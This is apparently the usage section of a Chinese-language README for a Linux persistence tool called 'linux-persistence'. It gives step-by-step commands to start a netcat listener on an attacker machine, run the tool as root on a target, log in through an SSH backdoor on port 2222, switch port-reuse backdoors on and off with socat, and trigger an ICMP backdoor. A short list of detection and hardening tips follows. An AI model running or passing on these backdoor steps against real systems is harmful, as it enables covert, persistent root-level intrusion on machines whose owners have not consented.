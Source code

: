 ## 使用方法

### 1. 准备监听器
在攻击者机器上启动netcat监听：
```bash
nc -lvp 4444
```

### 2. 运行工具
在目标机器上运行：
```bash
sudo ./linux-persistence
```

### 3. 使用SSH后门
```bash
ssh -p 2222 root@target_ip
```

### 4. 端口复用
激活端口复用：
```bash
echo 'backdoor' | socat - tcp:target_ip:80
```

关闭端口复用：
```bash
echo 'close' | socat - tcp:target_ip:80
```

### 5. ICMP后门
发送包含"backdoor"的ICMP包来触发

## 检测和防护

### 检测方法
1. 监控网络连接：`netstat -an`
2. 检查进程列表：`ps aux`
3. 检查定时任务：`crontab -l`
4. 检查系统文件完整性
5. 监控内核模块：`lsmod`
6. 检查PAM配置
7. 分析网络流量

### 防护建议
1. 定期检查系统完整性
2. 监控异常网络连接
3. 限制root权限使用
4. 部署HIDS/NIDS
5. 定期更新系统补丁
6. 限制编译工具访问
7. 监控内核模块加载
